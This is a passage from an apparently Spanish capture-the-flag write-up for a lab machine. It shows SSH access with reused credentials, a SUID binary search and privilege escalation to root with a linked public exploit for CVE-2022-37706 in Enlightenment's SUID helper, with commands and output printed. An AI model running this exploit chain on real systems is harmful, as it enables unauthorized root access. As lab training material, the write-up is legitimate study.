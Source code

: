 Probamos de autenticarnos con estas credenciales y el usuario`larissa` para validar si se reutilizan, y lograos acceder y comprobar la flag de **user.txt**.

```bash
❯ ssh larissa@board.htb
The authenticity of host 'board.htb (10.10.11.11)' can't be established.
ED25519 key fingerprint is SHA256:xngtcDPqg6MrK72I6lSp/cKgP2kwzG6rx2rlahvu/v0.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:30: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'board.htb' (ED25519) to the list of known hosts.
larissa@board.htb's password: 

larissa@boardlight:~$ cat user.txt 
db09716122**********************
```

## Privilege Escalation

### Enlightenment SUID Binary Exploitation

Revisando permisos de `SUID` nos encontramos que el binario de `enlightment` disponía de `SUID`.

{% hint style="info" %}
Enlightenment es un gestor de ventanas altamente gráfico. Los autores de Enlightenment han proporcionado un gestor de ventanas altamente configurable que permite a los usuarios configurar todos los aspectos de un aspecto de ventanas.
{% endhint %}

```
larissa@boardlight:~$ find / -perm -4000 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
/usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
```

Revisando posibles vulnerabilidades de utilizar ese **SUID** para escalar privilegios, nos encontramos con el siguiente repositorio de GitHub.

Ejecutamos el `exploit.sh`, verificamos que nos encontramos como usuario `root` y logramos visualizar la flag de **root.txt**.

{% embed url="https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit" %}

```bash
larissa@boardlight:/tmp$ ./exploit.sh 
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
./exploit.sh: line 20: /tmp/exploit: Permission denied
chmod: changing permissions of '/tmp/exploit': Operation not permitted
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# whoami
root
# cat /root/root.txt
9ead301127**********************
```
